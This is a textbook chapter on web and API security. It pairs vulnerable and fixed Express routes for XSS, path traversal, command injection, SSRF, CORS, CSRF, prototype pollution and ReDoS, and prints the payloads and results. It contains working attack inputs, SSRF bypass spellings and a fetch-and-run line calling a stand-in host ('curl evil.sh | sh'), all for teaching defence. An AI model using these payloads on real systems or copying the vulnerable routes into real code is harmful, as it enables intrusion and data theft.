

Chapter 23 of 36 · Intermediate
Web and API Security: XSS, CSRF, SSRF, CORS, Injection and Hardening
Web and API Security — Attacks on the Browser, the Network, and Your Own Code

Most web vulnerabilities come from treating data as code. This chapter runs vulnerable and fixed routes side by side for XSS, path traversal, command injection, SSRF, open redirects, CORS, CSRF, prototype pollution and ReDoS, adds security headers with helmet, and covers limits, secrets and dependency risk against the OWASP Top 10.
In this chapter you will learn
- Output encoding and Content-Security-Policy
- Preventing path traversal and command injection
- SSRF defences and open redirects
- CORS and CSRF correctly understood
- Prototype pollution, ReDoS and resource limits
23.0 Why This Chapter Matters
Chapters 21 and 22 secured who and what. But attackers rarely knock politely on the login form. They:
- plant
<script>tags in your pages (XSS), - trick a logged-in user's browser into sending requests for them (CSRF),
- make your server fetch internal URLs for them (SSRF),
- sneak
../into a filename to read your config (path traversal), - append
; rm -rfto a "ping" form (command injection), - send one 30-character string that freezes your whole Node process (ReDoS),
- send
{"__proto__": {"isAdmin": true}}and silently promote every object in your process (prototype pollution).
Each of those has a one-line cause and a one-line fix, and each is still found in production code every year. Rather than describe them abstractly, this chapter runs each attack against a small Express 5 app that has a vulnerable /v1/... route and a fixed /v2/... route side by side, and prints what happened. It ends with security headers (Helmet), secrets, dependencies, and a checklist mapped to the OWASP Top 10.
23.1 The Mindset: Never Trust Input, Never Trust the Network, Never Trust Yourself
Every attack in this chapter exploits one confusion: data being treated as code or as a trusted instruction.
| Attack | Data mistaken for… | Fix in one line |
|---|---|---|
| SQL / NoSQL injection | query syntax | Parameterise; validate types (Ch 13, 18) |
| XSS | HTML/JavaScript | Encode on output; CSP |
| Command injection | a shell command | No shell; execFile with an args array |
| Path traversal | a path inside your folder | resolve then check the prefix |
| SSRF | a URL you're allowed to fetch | Allow-list hosts; block private IPs |
| Open redirect | a safe destination | Allow-list relative paths |
| CSRF | a request the user intended | Tokens + SameSite + Origin check |
| Prototype pollution | ordinary data keys | Skip __proto__/constructor; Object.create(null) |
| ReDoS | a harmless string | Safe regexes; limits; timeouts |
Three habits underpin everything:
- Validate on input (types, length, format, allow-lists), encode on output (HTML, SQL parameters, shell arguments). Validation reduces risk; encoding is what actually stops injection.
- Least privilege: the app's DB role, API keys, file permissions and network access should be able to do only what the app needs (so a bug costs less).
- Defence in depth: assume any single layer will fail; stack validation, encoding, headers, WAF, monitoring.
23.2 Cross-Site Scripting (XSS)
XSS happens when attacker-controlled text is placed into a page as HTML, so the victim's browser executes the attacker's JavaScript with your site's authority: reading the page, calling your API as the user, stealing tokens (if they're readable), rewriting the form to capture passwords.
Three flavours: reflected (payload in the URL, echoed back), stored (payload saved in the database, e.g., a product review, shown to everyone), and DOM-based (client-side JS writes untrusted data into the DOM with innerHTML).
The vulnerable and fixed handlers, attacked
app.get('/v1/search', (req, res) => res.type('html').send(`<h1>Results for ${req.query.q}</h1>`));
app.get('/v2/search', (req, res) => res.type('html').send(`<h1>Results for ${esc(req.query.q)}</h1>`));
const esc = (s) => String(s).replace(/[&<>"']/g, (c) => ({ '&': '&', '<': '<', '>': '>', '"': '"', "'": ''' }[c]));Payload <script>alert(document.cookie)</script>:
v1 (raw interpolation) 200 <h1>Results for <script>alert(document.cookie)</script></h1>
v2 (HTML-escaped) 200 <h1>Results for <script>alert(document.cookie)</script></h1>In v1 the browser would run the script. In v2 the characters become text (<), so the user sees the payload instead of executing it. (Execution is what a browser does with the v1 string; I verified the exact bytes the server sends, not the execution itself.)
Defences, in order of importance
- Context-aware output encoding, by default. Use a templating engine that escapes automatically (React/Vue/Svelte, Handlebars
{{ }}, EJS<%= %>, Nunjucks autoescape), and treat every "raw HTML" escape hatch (dangerouslySetInnerHTML,v-html,|safe,<%- %>,innerHTML) as a code-review red flag. The right escape depends on the context: HTML body, attribute, JavaScript string, URL, CSS differ. - If you must allow user HTML (a rich-text review), sanitise with a vetted allow-list library (DOMPurify,
sanitize-html), never your own regex. - Content-Security-Policy (CSP) as a second layer: a header telling the browser which script sources are allowed, so injected inline scripts don't run (§23.9).
HttpOnlycookies (Chapter 21) so even a successful XSS can't read the session cookie (it can still act as the user).- Don't store tokens in
localStorage: any XSS reads it. - Set a correct
Content-Type(andX-Content-Type-Options: nosniff) so a JSON/text response is never interpreted as HTML.
For a JSON API the server's job is mostly correct content types, plus never returning user input inside HTML. The front-end framework does the encoding.
23.3 Path Traversal
Serving a user-named file from a folder:
fs.readFileSync(path.join(pub, String(req.query.f))) // v1path.join('/app/public', '../secret.txt') normalises to /app/secret.txt, outside the folder:
v1 /v1/file?f=logo.txt 200 public logo
v1 /v1/file?f=../secret.txt 200 TOP-SECRET-CONFIGThe fix: resolve to an absolute path, then verify it's still inside the allowed directory:
const full = path.resolve(pub, String(req.query.f ?? ''));
if (!full.startsWith(pub + path.sep)) return res.status(400).send('bad path');v2 /v2/file?f=../secret.txt 400 bad path
v2 /v2/file?f=logo.txt 200 public logo
v2 sibling dir trick f=../public-evil/x 400 bad pathNote the trailing separator in pub + path.sep: without it, a sibling directory named public-evil would pass a naive startsWith('/app/public') check. Other defences: never build paths from user input at all (store files under generated ids and look up the name in the database), use express.static (which handles this), run the process with a minimal filesystem view (containers, read-only mounts, Chapter 31), and watch for URL-encoded variants (%2e%2e%2f) and symlinks (fs.realpath). (Encoded variants and symlinks not tested.)
23.4 Command Injection
exec(`echo pinging ${req.query.host}`) // v1: runs through a shellv1 host="x; echo INJECTED" 200 pinging x; echo INJECTEDHere the "attack" is harmless (echo), but the output shows that the shell interpreted ; as a command separator and ran a second command. With ; curl evil.sh | sh it's remote code execution: a full server takeover.
if (!/^[a-zA-Z0-9.-]{1,253}$/.test(String(req.query.host))) return res.status(400).send('bad host'); // v2: validate…
await execFile('node', ['-e', '…', String(req.query.host)]); // …and use NO SHELLv2 same payload 400 bad host
v2 host="example.com" 200 pinging example.comRules: avoid spawning processes when a library does the job; if you must, use execFile/spawn with an argument array (arguments are data, never parsed by a shell) and never exec with string concatenation; validate with an allow-list as well; beware options injection (a "filename" starting with -), solved with -- or validation. The same family: eval, new Function, vm, and template injection (a server-side template engine rendering user-controlled template source). Never evaluate user input as code.
23.5 Server-Side Request Forgery (SSRF)
Any feature where the server fetches a URL the user supplies (webhook testing, "import image from URL", link previews, PDF-from-URL) can be turned into a proxy into your private network. The server sits inside your firewall: it can reach the database admin port, internal admin panels, and, in the cloud, the metadata service (169.254.169.254) that hands out IAM credentials. (The 2019 Capital One breach used exactly this route.)
Test setup: a "secret" internal server on 127.0.0.1 (port chosen at random), unreachable from outside, and an endpoint that fetches whatever URL it's given:
v1 fetch http://127.0.0.1:3859/ 200 INTERNAL-ADMIN-SECRET-42
v1 fetch http://localhost:3859/ 200 INTERNAL-ADMIN-SECRET-42
v1 fetch http://2130706433:3859/ 200 INTERNAL-ADMIN-SECRET-42 ← 2130706433 is 127.0.0.1 written as one decimal number
v1 fetch http://[::1]:3859/ 502 fetch failed ← (my internal server only listens on IPv4, so this failed for an unrelated reason)The attacker read an internal secret through the public endpoint, and the decimal-IP trick (2130706433) shows why naive blocklists such as if (url.includes('127.0.0.1')) fail: there are dozens of spellings (localhost, 0x7f000001, 127.1, IPv6 ::1, ::ffff:127.0.0.1, a domain that resolves to 127.0.0.1…).
A proper defence
async function safeFetch(rawUrl) {
const u = new URL(rawUrl); // parse with the same parser fetch uses
if (!['http:', 'https:'].includes(u.protocol)) throw new Error('scheme not allowed');
const addrs = await dns.lookup(u.hostname, { all: true }); // resolve first, then judge the ADDRESS
if (addrs.some((a) => isPrivate(a.address))) throw new Error('blocked: resolves to a private address');
if (!ALLOWED_HOSTS.has(u.hostname)) throw new Error('blocked: host not on allow-list');
return fetch(u, { redirect: 'manual', signal: AbortSignal.timeout(3000) }); // don't follow redirects; time-box
}v2 fetch http://127.0.0.1:3859/ 400 blocked: resolves to a private address
v2 fetch http://localhost:3859/ 400 blocked: resolves to a private address
v2 fetch http://2130706433:3859/ 400 blocked: resolves to a private address
v2 fetch http://[::1]:3859/ 400 blocked: resolves to a private address
v2 fetch http://example.org/ 400 blocked: host not on allow-listWhat makes it work: (1) an allow-list of hosts is the strongest control; (2) judge the resolved IP, not the spelling (private, loopback, link-local, CGNAT ranges, IPv6 equivalents); (3) don't follow redirects automatically (a public URL can redirect to http://169.254.169.254/); (4) timeouts and size limits.
Remaining gap I did not test: DNS rebinding: an attacker's domain returns a public IP at check time and a private IP when fetch resolves it again a moment later (a time-of-check/time-of-use race). Robust solutions pin the connection to the validated IP (a custom lookup/agent) or run fetchers in an egress-restricted network (the best defence in depth: the fetcher can't reach internal ranges). In the cloud, require IMDSv2 (session tokens) on instance metadata and block 169.254.169.254 at the network layer.
23.6 Open Redirects
/login?next=/orders redirects after login. If next is unchecked, attackers craft https://shop.example/login?next=https://evil.com: a phishing link with your trusted domain at the front.
next=/orders v1 -> /orders v2 -> /orders
next=//evil.com v1 -> //evil.com v2 -> / ← protocol-relative URL = another host
next=https://evil.com v1 -> https://evil.com v2 -> /
next=/\evil.com v1 -> /\evil.com v2 -> / ← some browsers treat \ as /The fix (v2): accept only a relative path starting with a single / (not //, not /\) matching a conservative pattern, otherwise redirect to a default; or map short tokens (?next=orders) to known destinations. The same care applies to OAuth redirect_uri (exact match only; Chapter 21).
23.7 CORS: What It Is, and What It Isn't
CORS (Cross-Origin Resource Sharing) is a browser mechanism. By default a page on evil.example cannot read responses from shop.example.com (the same-origin policy). CORS headers are how a server relaxes that for chosen origins: Access-Control-Allow-Origin (who), Access-Control-Allow-Credentials (may they send cookies?), plus preflight (OPTIONS) for non-simple requests.
CORS is not authentication or authorization, and it doesn't stop requests from reaching your server.
curl, Postman, scripts and attackers ignore it completely. It only controls whether a browser lets page JavaScript read a cross-origin response.
The famous misconfiguration: reflect whatever Origin arrives and allow credentials:
app.use('/cors-bad', cors({ origin: true, credentials: true })); // "origin: true" reflects any origin
app.use('/cors-good', cors({ origin: ['https://shop.example.com'], credentials: true }));/cors-bad/data Origin: https://evil.example -> ACAO: https://evil.example credentials: true ← ANY site can read a logged-in user's data
/cors-bad/data Origin: https://shop.example.com -> ACAO: https://shop.example.com credentials: true
/cors-good/data Origin: https://evil.example -> ACAO: null credentials: true ← no allow header: browser blocks the read
/cors-good/data Origin: https://shop.example.com -> ACAO: https://shop.example.com credentials: true/cors-bad lets a script on evil.example, running in a victim's browser, make an authenticated request (cookies included) and read the response. The good config allows only the known origin (the evil one received no Access-Control-Allow-Origin, so a browser would refuse to expose the response). (I verified the headers; browser enforcement itself is by specification, not observed here.)
Rules: use an explicit allow-list of origins; never combine * with credentials (browsers reject it) and never "reflect and allow credentials"; don't use null as an allowed origin; keep Access-Control-Allow-Methods/Headers minimal; set Vary: Origin when the response varies by origin. If your API uses Authorization: Bearer headers rather than cookies, CSRF disappears (§23.8) but CORS still governs which sites' JavaScript may call it.
23.8 Cross-Site Request Forgery (CSRF)
Browsers automatically attach cookies to requests for your domain, no matter which site triggered the request. So if Asha is logged in to shop.example.com (session cookie) and visits evil.example, that page can submit a hidden form POST to https://shop.example.com/transfer and the browser helpfully includes her cookie. The server sees a perfectly authenticated request she never intended.
v1 forged cross-site request (Origin: evil) 200 {"moved":5000} ← money movedCSRF only affects cookie-authenticated (ambient credential) requests. It doesn't affect APIs that need an explicit Authorization: Bearer … header set by your own JavaScript (a foreign site can't make the browser add that).
Layered defences
SameSitecookies (Laxdefault in modern browsers,Strictfor the highest-risk cookies): the browser omits the cookie on most cross-site requests. (Behaviour specified by browsers; not observable without one, so not tested here.) This is the first, strongest layer, but not enough alone (older browsers; same-site subdomain attacks;GETside effects).- Never change state on
GET(Lax allows cookies on top-levelGETnavigations). - Verify
Origin(orReferer) on state-changing requests against your own origin. - CSRF tokens: a secret per session that the page includes in each state-changing request (header or hidden field). A cross-site page can't read it (same-origin policy), so it can't forge the request. Our tokens:
HMAC(server-secret, sessionId).
v2 same forged request 403 {"title":"bad origin"}
v2 forged, spoofed good Origin but no token 403 {"title":"bad csrf token"}
v2 legit: origin + X-CSRF-Token 200 {"moved":5000}The second line matters: a spoofed Origin isn't enough without the token. (From a curl script anyone can set any Origin; the token is what a cross-site browser attack can't obtain.) For SPAs using cookies, the common patterns are the double-submit cookie or a token returned in a JSON body and sent as a header. Use your framework's tested implementation (e.g., csrf-csrf, @fastify/csrf-protection) rather than writing your own.
23.9 Security Headers and Helmet
Headers tell the browser to turn on protections. Helmet sets a good baseline in one line:
import helmet from 'helmet';
app.use(helmet());Measured, an Express app without Helmet versus with it:
without helmet: content-security-policy=MISSING strict-transport-security=MISSING x-content-type-options=MISSING x-frame-options=MISSING referrer-policy=MISSING
with helmet :
content-security-policy default-src 'self';base-uri 'self';font-src 'self' https: data:;form-action 'sel…
strict-transport-security max-age=31536000; includeSubDomains
x-content-type-options nosniff
x-frame-options SAMEORIGIN
referrer-policy no-referrer
cross-origin-opener-policy same-origin
x-powered-by (absent)| Header | What it does |
|---|---|
Content-Security-Policy |
Whitelists where scripts/styles/images/frames may load from; blocks inline script by default. The most powerful (and fiddliest) header: a strong second line against XSS. Start in Content-Security-Policy-Report-Only mode |
Strict-Transport-Security (HSTS) |
"Only use HTTPS for this domain for N seconds," preventing downgrade/strip attacks (Chapter 2). Send only over HTTPS |
X-Content-Type-Options: nosniff |
Browser must trust declared Content-Type; stops "this JSON is HTML" tricks |
X-Frame-Options / CSP frame-ancestors |
Prevents your pages being embedded in a hostile iframe (clickjacking) |
Referrer-Policy |
Limits URL leakage to other sites |
Cross-Origin-Opener-Policy / -Resource-Policy |
Cross-origin isolation against side-channel and window-reference attacks |
X-Powered-By |
Removed (don't advertise "Express"; also app.disable('x-powered-by')) |
Notes: for a pure JSON API most of these are harmless but cheap; for HTML pages, CSP needs tuning (your own scripts/CDNs/inline styles), so adopt it deliberately. Helmet's defaults are a baseline, not a guarantee. Cookies carry their own flags (Chapter 21), and your reverse proxy/CDN often sets some of these too (Chapter 31).
23.10 Prototype Pollution
In JavaScript, objects inherit from Object.prototype. If attacker-controlled JSON can write to __proto__, they modify the prototype of every object in the process:
const naiveMerge = (t, s) => { for (const k in s) { if (s[k] && typeof s[k] === 'object') { t[k] ??= {}; naiveMerge(t[k], s[k]); } else t[k] = s[k]; } return t; };
const evil = JSON.parse('{"__proto__": {"isAdmin": true}}'); // JSON.parse creates a real own property named "__proto__"before: ({}).isAdmin = undefined
after naiveMerge(evil): ({}).isAdmin = true <- EVERY object now has isAdmin
after safeMerge: ({}).isAdmin = undefinedAfter one request to a route that deep-merges a request body into a config or options object, every plain object in the server reports isAdmin === true; any later check like if (user.isAdmin) on an object that simply lacks the property now passes. Depending on the code, this escalates to authorization bypass, denial of service, or even remote code execution (famous incidents in lodash merge/defaultsDeep, jQuery.extend, and others).
Fixes: (a) skip dangerous keys (__proto__, constructor, prototype) in any recursive merge/set-by-path function, as safeMerge does; (b) use Object.create(null) or Map for dictionaries built from user keys; (c) validate input with a strict schema (Zod) before merging, so unknown keys never arrive; (d) keep dependencies updated (many libraries patched this); (e) run Node with --disable-proto=delete in high-risk code; (f) use Object.hasOwn(obj, k) instead of truthiness checks for permissions. (I demonstrated the pollution and safeMerge; the Node flag and lodash incidents are from documentation.)
23.11 Denial of Service: Regular Expressions and Resource Limits
ReDoS
A regular expression with nested quantifiers can take exponential time on certain inputs. Node runs your JavaScript on one thread (Chapter 5), so one evil request freezes every user:
/^(a+)+$/.test('a'.repeat(n) + '!') // looks innocent; "email validation" regexes often have this shape/^(a+)+$/ on 20 a's + "!" -> 172.7 ms (first calls include warm-up, so the smallest sizes look flat)
/^(a+)+$/ on 24 a's + "!" -> 162.4 ms
/^(a+)+$/ on 26 a's + "!" -> 689.5 ms
/^(a+)+$/ on 28 a's + "!" -> 3206.9 ms ← each +2 characters ≈ ×4
safe equivalent /^a+$/ on a 31-char input -> 0.063 ms
an innocent request sent just before a 28-char evil input took 2532 ms
(the evil regex held the event loop for 2520 ms)Each two extra characters about quadruples the time (earlier runs: 30 characters ≈ 10–11 seconds). The last line is the real damage: an unrelated, innocent request waited 2.5 seconds because the evil regex occupied the only thread. A few such requests per minute would take a service down.
Defences: avoid nested quantifiers and overlapping alternations ((a+)+, (a|a)*, (.*)*); cap input length before matching (a 50-character email-like string can't hurt); prefer simple parsers/validators (Zod, validator.js) over home-made regexes; use a linear-time engine (RE2, re2 npm) for untrusted patterns; lint with eslint-plugin-regexp/safe-regex; and run CPU-heavy work off the main thread (worker threads, Chapter 5).
Other resource-exhaustion limits (set them all)
5 KB body vs 1 KB limit -> 413 {"title":"entity.too.large"} (express.json({ limit: '1kb' }))
malformed JSON -> 400- Request body size (
express.json({ limit })), JSON depth, upload size, query-string/array length, header size. - Timeouts: request, headers, keep-alive, database statement (Chapter 12), outbound calls (
AbortSignal.timeout). - Pagination caps (
limit ≤ 100, Chapter 8), GraphQL depth/cost limits (Chapter 9). - Rate limiting (Chapters 7, 19) and connection limits per client.
- Slow hashing is a DoS vector too: cap password length (Chapter 21).
23.12 Injection, Recapped
The most important single rule across the book: never build a query or command by concatenating user input.
| Target | Safe pattern | Chapter |
|---|---|---|
| SQL | Parameters ($1), whitelist identifiers |
13, 15 |
| MongoDB | Validate types (no operator objects), sanitizeFilter |
18 |
| Shell | execFile + args array |
23 |
| HTML | Contextual output encoding | 23 |
| LDAP, XPath, headers, logs | The library's escaping/params; strip CR/LF from anything placed in headers or logs (log injection / header injection) | |
| Templates | Never render user-supplied template source | |
| Regex | Never build a regex from user input without escaping (escapeRegExp) |
23 |
23.13 File Uploads (Described; not run in this chapter)
Uploads are a classic attack surface:
- Limit size at the proxy and in the app; limit count; stream to storage rather than buffering.
- Don't trust the filename or
Content-Type(the client chooses both). Check magic bytes (file signatures) and re-encode images server-side (this also strips embedded payloads and metadata). - Generate the stored name yourself (random id); never use the client's name for paths (traversal) or serve user files from your main origin (XSS via uploaded HTML/SVG). Serve from a separate domain with
Content-Disposition: attachmentandnosniff. - Scan for malware if files are shared; store outside the web root, preferably in object storage (Chapter 20) with presigned URLs.
- Limit decompression (zip/PNG "bombs") and image dimensions.
23.14 Secrets, Dependencies and Supply Chain
Secrets
- Never commit secrets (keys, passwords, tokens,
.envfiles) to Git, and remember history keeps them: a committed-then-deleted key must be rotated, not just removed. Use a pre-commit/CI secret scanner (gitleaks, trufflehog) (not run here). - Load secrets from environment variables or a secret manager (AWS Secrets Manager, GCP Secret Manager, Vault, Doppler), injected at runtime (Chapters 4 and 31); validate config at startup; never log them; give each environment different secrets; make rotation routine.
- Use separate credentials per service with least privilege (the app's DB user can't
DROP TABLE). - In errors/logs, redact
Authorization, cookies, passwords, tokens, and PII.
Dependencies (the supply chain)
Your app is mostly other people's code. Risks: known-vulnerable packages, typosquatting (reqeust), malicious updates, abandoned packages, install scripts.
- Run
npm auditin CI; I ran it on the packages used for this chapter's auth work:
$ npm audit --omit=dev
found 0 vulnerabilities(At that moment, for those packages. It's a snapshot, not a guarantee: new advisories appear daily; audit regularly.)
- Commit the lockfile and install with
npm cifor reproducible builds; pin/limit version ranges deliberately; review dependency updates (Dependabot/Renovate) instead of blindlatest. - Prefer fewer, well-maintained dependencies; check maintainers, downloads, recent activity; be wary of tiny packages for trivial tasks (see the 2016
left-padincident, an 11-line package whose removal broke much of the JavaScript ecosystem). - Consider
--ignore-scriptsfor untrusted installs,npm provenance, and SBOM generation for compliance. Keep Node and the OS image patched (Equifax lesson).
23.15 Logging, Errors and Monitoring for Security
- Don't leak internals: return generic error bodies in production (no stack traces, SQL, file paths); log details server-side with a correlation id (Chapter 25). Our error handler returns
{"title":"entity.too.large"}-style minimal bodies. - Log security events: failed logins, permission denials, rate-limit hits, token reuse (Chapter 21), admin actions: without logging secrets. Alert on spikes (credential stuffing, enumeration, 403/404 storms from one IP/user).
- Protect log injection: strip newlines from user-controlled values.
- Have an incident plan: who rotates keys, how to revoke all sessions, how to notify users.
23.16 OWASP Top 10 Map (2021) to This Book
| OWASP 2021 | Where covered |
|---|---|
| A01 Broken Access Control | Ch 22 (BOLA, BFLA, mass assignment, RLS) |
| A02 Cryptographic Failures | Ch 21 (hashing, TLS/HSTS), Ch 2 |
| A03 Injection | Ch 13, 18, 23 (SQL, NoSQL, command, XSS) |
| A04 Insecure Design | Ch 11 (architecture), threat modelling; this chapter's mindset |
| A05 Security Misconfiguration | Ch 23 (CORS, headers, defaults), Ch 31 |
| A06 Vulnerable & Outdated Components | §23.14 (audit, lockfiles, patching) |
| A07 Identification & Authentication Failures | Ch 21 |
| A08 Software & Data Integrity Failures | §23.14, CI/CD (Ch 32), prototype pollution |
| A09 Security Logging & Monitoring Failures | §23.15, Ch 25 |
| A10 Server-Side Request Forgery | §23.5 |
23.17 Edge Cases and Gotchas Checklist
- Any place user data is placed in HTML/JS/URL/CSS/shell/SQL/regex/template without the matching encoding.
-
innerHTML/dangerouslySetInnerHTML/v-html/|safewith user content; homemade sanitisers. -
exec(string)with user input;eval/new Function; user-controlled template source. -
path.joinwith user input and no containment check; prefix check without the trailing separator. - Server-side fetches of user URLs without allow-list/private-IP block/redirect control/timeouts; reliance on string blocklists; no IMDSv2.
-
redirect(req.query.next); looseredirect_urimatching. - CORS: reflecting origins,
credentials: truewith wildcard/reflection, allowingnull. - Cookie-authenticated state changes with no CSRF defence; side effects on GET.
- Missing Helmet/CSP/HSTS/nosniff;
X-Powered-Byexposed. - Deep-merge/
setby path on user data;{}used as a dictionary keyed by user input. - Nested-quantifier regexes on user input; unbounded input length.
- No body/upload/query/JSON-depth limits; no timeouts; unbounded pagination.
- Secrets in Git/logs/images; shared credentials; never rotated.
- No lockfile/
npm ci; no audit; blindlatest. - Stack traces or SQL errors returned to clients.
- Browser-only security tested nowhere: add header tests and a browser/E2E check for CSP and cookies (Chapter 24).
23.18 Chapter Summary
- Almost every web vulnerability is data treated as code: encode on output, validate on input, parameterise, never concatenate.
- XSS: encode output (v1 echoed
<script>; v2 produced<script>); sanitise user HTML with DOMPurify; CSP andHttpOnlyas second layers; no tokens inlocalStorage. - Path traversal (
../secret.txtleaked):path.resolve+startsWith(base + sep). Command injection (; echo INJECTEDran):execFilewith args, no shell. - SSRF: v1 returned an internal secret through
127.0.0.1,localhostand the decimal2130706433; the fix resolves DNS, blocks private IPs, uses an allow-list, refuses redirects, sets timeouts. DNS rebinding remains: use egress filtering. Open redirects: allow only single-slash relative paths. - CORS is a browser read-permission, not a firewall: reflecting origins with credentials let any site read private data; use an explicit allow-list. CSRF:
SameSite+ Origin check + token; a spoofed Origin without the token was refused. - Helmet adds CSP, HSTS, nosniff, frame protection and removes
X-Powered-By(all missing by default). - Prototype pollution (
{"__proto__": …}made every objectisAdmin) → skip dangerous keys, strict schemas. ReDoS (/^(a+)+$/): 28 chars ≈ 3.2 s, and an innocent request waited 2.5 s behind it → safe regexes, length caps, RE2. - Set size/time/depth/rate limits everywhere; keep secrets out of Git; audit and lock dependencies; log security events without leaking; map to the OWASP Top 10.
23.19 Revision Notes
- Encode on output (HTML/URL/JS/CSS), parameterise queries,
execFileargs, noeval. resolve+startsWith(base + path.sep); id-based storage names.- SSRF: allow-list, resolve DNS then check IP (private/loopback/link-local/IPv6),
redirect: 'manual', timeout; egress firewall; IMDSv2. - Redirects:
^/(?!/|\\)…or token map. CORS: explicit origins, never reflect+credentials. - CSRF:
SameSite=Lax/Strict, Origin check, per-session token, no state change on GET. - Helmet: CSP, HSTS, nosniff, frame-ancestors, referrer-policy;
app.disable('x-powered-by'). - Never merge
__proto__/constructor/prototype;Object.create(null); strict schemas. - ReDoS: no nested quantifiers, length cap, RE2.
- Limits: body, upload, depth, timeouts, rate, pagination.
- Secrets: env/secret manager, rotate;
npm ci+npm audit; lockfile.
23.20 Mind Map (ASCII)
WEB & API SECURITY
│
┌──────────┬──────────┬────────┼─────────┬───────────┬────────────┐
BROWSER INPUT→CODE NETWORK RUNTIME LIMITS SUPPLY HEADERS
│ │ │ │ │ │ │
XSS SQL/NoSQL SSRF prototype body/time secrets CSP, HSTS
CSRF command open pollution rate npm audit nosniff
CORS path trav. redirect ReDoS uploads lockfile frame-ancestors
clickjack templates DNS rebind SBOM Helmet23.21 Cheat Sheet
app.disable('x-powered-by'); app.use(helmet()); app.use(express.json({ limit: '10kb' }));
const full = path.resolve(base, userPath); if (!full.startsWith(base + path.sep)) reject();
await execFile('tool', [arg1, arg2]); // never exec(`tool ${x}`)
// SSRF: new URL → dns.lookup({all:true}) → reject private → allow-list → fetch(u,{redirect:'manual',signal:AbortSignal.timeout(3000)})
// redirect: /^\/(?!\/|\\)[\w\-./?=&]*$/.test(next) ? next : '/'
// CORS: cors({ origin: ['https://shop.example.com'], credentials: true })
// CSRF: SameSite=Lax + check Origin + X-CSRF-Token (HMAC of session)
// merge: skip '__proto__' | 'constructor' | 'prototype'
// shell: npm ci && npm audit --omit=dev ; gitleaks detect23.22 Key Takeaways
- Data must never become code: encode, parameterise, no shell, no
eval. - Your server is inside the firewall: treat every user-supplied URL and path as hostile.
- CORS ≠ security boundary; CSRF only matters for cookie auth, and needs layered defences.
- One regex or one merge can take the whole process down or up: limit and validate.
- Headers, limits, secrets hygiene, patching: the cheap measures that stop most real attacks.
23.23 20 Multiple Choice Questions
Tap an answer to check it. Your score updates as you go.
Score: 0 / 0 answered (20 questions)
The fundamental cause behind injection attacks is:
The primary XSS defence is:
HttpOnlyon a session cookie:path.join(base, '../secret.txt')returns a path:Why check
startsWith(pub + path.sep)rather thanstartsWith(pub)?The safe way to run an external program with user data:
SSRF is dangerous mainly because the server:
http://2130706433/demonstrates that:A robust SSRF defence combines:
The remaining SSRF risk after resolve-and-check is:
The CORS config
{ origin: true, credentials: true }is dangerous because it:CORS protects against:
CSRF requires that the target endpoint authenticates via:
In the test, a forged request with a spoofed good Origin but no CSRF token:
Which header tells browsers to use HTTPS only for a domain?
Prototype pollution via
JSON.parse('{"__proto__":{"isAdmin":true}}')plus a naive merge makes:Which is a fix for prototype pollution?
/^(a+)+$/is dangerous because:In our test, an innocent request during a ReDoS took about:
Which practice best addresses the supply-chain risk?
Show the answer key
1-b, 2-b, 3-b, 4-b, 5-b, 6-b, 7-b, 8-b, 9-b, 10-b, 11-b, 12-b, 13-b, 14-b, 15-b, 16-b, 17-a, 18-b, 19-b, 20-b
23.24 20 Hands-on Exercises
(Use resources/ch23/; run only on localhost.)
Easy
- Run the lab; capture each v1 vs v2 pair.
- Send an XSS payload to your own page and view the encoded output.
- Add
helmet()to an app and compare headers withcurl -Ibefore/after. - Show path traversal and fix it with
resolve+ prefix. - Prove
execwith concatenation is injectable using; echo.
Medium
- Write
isPrivate(ip)covering IPv4, IPv6, mapped IPv4, CGNAT and link-local; unit-test 30 addresses. - Add DNS pinning to
safeFetch(use the validated IP for the connection) and explain what attack it stops. - Implement CSRF tokens for a cookie-authenticated form app; test with and without tokens.
- Configure a strict CSP (nonces) for a small HTML app; then trigger violations and collect
report-toreports. - Write a recursive
set(obj, 'a.b.c', value)utility; exploit it with__proto__.x; fix it. - Find a ReDoS regex in an open-source project (via
safe-regex) and demonstrate the slowdown. - Add request/response size, time and depth limits to an Express app; verify each with a failing test.
Hard
- Build an SSRF-proof image-import service (allow-list + resolution + size/time limits + content sniffing) and attack it with redirects and rebinding.
- Replace the regexes in a form validator with
re2or Zod; benchmark worst-case inputs. - Implement safe file uploads: magic-byte validation, re-encoding, random names, separate domain; fuzz it.
- Add a CI job running
npm audit, secret scanning, and an OWASP ZAP baseline scan against a staging build. - Write Playwright tests asserting security headers and that an injected
<script>does not execute under your CSP. - Perform a threat model (STRIDE) of ShopLine checkout; list five abuse cases and the control for each.
- Implement a redaction layer for logs so passwords, tokens and card numbers never appear; test with canary values.
- Run a vulnerable training app (OWASP Juice Shop / DVWA, locally) and write up three exploits and their root-cause fixes.
23.25 5 Interview Questions
1. Explain XSS and how you prevent it.
Model answer: Attacker-controlled data rendered as HTML/JS in a victim's browser, running with the site's authority (stored, reflected, DOM). Prevent with contextual output encoding by default (auto-escaping templates/frameworks), sanitising any intentionally-allowed HTML with DOMPurify, a strict CSP, HttpOnly cookies, avoiding innerHTML/raw-HTML sinks, and not keeping tokens in localStorage.
2. What's the difference between CSRF and XSS, and how do you defend against CSRF?
